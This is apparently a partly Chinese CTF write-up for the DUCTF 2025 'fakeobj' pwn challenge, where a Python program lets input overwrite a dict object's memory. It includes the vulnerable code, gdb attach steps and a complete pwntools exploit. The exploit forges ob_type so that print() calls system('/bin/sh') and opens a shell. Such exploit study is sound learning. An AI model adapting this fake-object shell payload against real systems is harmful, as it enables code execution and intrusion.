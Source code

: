 # 1.0 Challenge
1. how to debug python script
2. how to overwrite python 3.9 obj?
# 2.0 Analysis
source code 
最神奇是 这个是python based 题目
我没有很明白 这个题目在讲什么

这是一个 Python 程序，它做了以下几件事：
1. 创建一个空的字典对象：`obj = {}`
2. 打印出这个字典对象在内存中的地址：`hex(id(obj))`
3. 加载 libc 的地址，并打印出 `system()` 函数的地址
4. 然后，它让你输入一串 hex 编码的数据（72字节）
5. 它**用你输入的内容，直接覆盖字典对象内存**！
6. 最后，程序执行：`print(obj)`（试图触发输出）

好像是 要用 python debug 然后在
PyDictObject
里面的做什么东西？？？？
```python
#!/usr/bin/env python3

import ctypes

obj = {}
print(f"addrof(obj) = {hex(id(obj))}")

libc = ctypes.CDLL(None)
system = ctypes.cast(libc.system, ctypes.c_void_p).value
print(f"system = {hex(system or 0)}")

fakeobj_data = bytes.fromhex(input("fakeobj: "))
for i in range(72):
    ctypes.cast(id(obj), ctypes.POINTER(ctypes.c_char))[i] = fakeobj_data[i]

print(obj)
```

# 3.0 Solution

## 3.1 how to debug python
先run program 了 然后check pid 然后用gdb debug
```
1.
ps aux | grep python

salad    12345  0.0  0.2  123456  6543 pts/1    S+   03:21   0:00 python3 vuln.py

2.
gdb -p 12345
```
## 3.2 how to overwrite python 3.9 obj?

现在我是可以enter 72 bytes 进 obj 
所以我可以做一个fake obj 
现在我们有obj leak address 和 system address 

官方解答 (认真讲 我看不懂)
修改 `ob_type` 使 `tp_repr` 指向我们构造的结构 → `print(obj)` 调用了 `tp_repr`，但此时 `tp_repr` = `system`，arg = "/bin/sh"

这个人讲到 很细
https://blog.kittycar.online/posts/2025/07/20/ductf-2025-fakeobject/

# 4.0 FLAG 
不理解 但是有script 有机会 会回来
# 5.0 FINAL SCRIPT 
```python
from pwn import *

# conn = process(['python3', '../publish/fakeobj.py'])
conn = remote('0.0.0.0', 1337)

addrof_obj = int(conn.recvline().decode().split(' = ')[1], 16)
system = int(conn.recvline().decode().split(' = ')[1], 16)
log.success(f'addrof(obj) = {hex(addrof_obj)}')
log.success(f'system = {hex(system)}')

payload = flat([
    b'.bin/sh\x00', # ob_refcnt, will be refcnt inc'd then called as tp_repr arg
    p64(addrof_obj - 88 + 16), # set ob_type such that tp_repr points to obj+24
    p64(system), # tp_repr will point to this, so we call system("/bin/sh") !
], length=72, filler=b'\x00')
conn.sendlineafter('fakeobj: ', payload.hex().encode())

conn.interactive()
```

# 6.0 REFERENCE

OFFICIAL 
https://github.com/DownUnderCTF/Challenges_2025_Public/blob/main/pwn/fakeobj.py/solve/solv.py

VULN 
https://vulnx.github.io/blog/posts/DUCTF2025/